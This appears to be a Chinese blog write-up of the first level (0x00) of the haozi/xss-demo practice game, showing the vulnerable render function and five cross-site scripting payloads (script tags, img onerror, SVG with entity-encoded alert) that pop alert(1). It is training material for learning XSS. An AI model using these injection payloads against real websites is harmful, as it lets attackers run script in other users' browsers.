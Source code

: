 ```yaml
---
title: haozi/xss-demo笔记
date: 2018-10-08 21:59:54
tags: XSS
categories: XSS
---
```


# haozi/xss-demo笔记

在线xss题目,用于xss学习,弹出alert(1)就过关.

地址:https://xss.haozi.me

项目: https://github.com/haozi/xss-demo ,有提供的答案https://github.com/haozi/xss-demo/issues/1

自带alert(1)的js地址：https://xss.haozi.me/j.js

# 0x00

## server code:

```
function render (input) {
  return '<div>' + input + '</div>'
}
```

## 分析:

```
没有过滤,在<div>标签中输出
```

## input code:



```
1. <script>alert('1')</script>

2. <script>alert`1`</script>

3. 利用外联方式 
<script src=https://xss.haozi.me/j.js></script>   

4. 利用onerror事件,当src寻找的资源不存在发送错误弹框。
<img src='' onerror='alert(1)'>

5.  利用html的字符实体和SVG。
    SVG意为可缩放矢量图形（Scalable Vector Graphics）。
    SVG 使用 XML 格式定义图像。
   <svg><script>alert&#x28;1&#x29;</script></svg>

```
